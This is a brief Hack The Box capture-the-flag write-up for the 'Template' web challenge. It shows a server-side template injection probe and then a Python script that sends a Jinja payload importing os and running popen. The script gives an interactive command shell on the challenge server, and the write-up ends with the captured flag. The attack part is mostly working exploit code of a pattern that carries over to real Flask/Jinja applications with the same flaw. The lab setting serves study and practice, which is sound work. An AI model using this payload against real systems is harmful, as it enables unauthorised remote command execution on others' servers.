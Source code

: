 ```yaml
---
layout: single
title: Template [Web] - Hack The Box
excerpt: "ECSC Prep"
date: 2021-12-21
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Web Challenge
tags:  
  - SSTI Injection
---
```


## Injection [SSTI]
`http://138.68.174.27:31035/{{1+1}}` => The page '2' could not be found

## Exploit
```python
import requests


def inject(cmd):
	HOST="http://138.68.174.27:31035/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('"+str(cmd)+"').read()%7D%7D"
	return HOST


while 1:
	cmd=input("> ")
	if cmd=="exit":
		break
	r = requests.get(inject(cmd))
	print(r.text)
```

### Flag => HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}
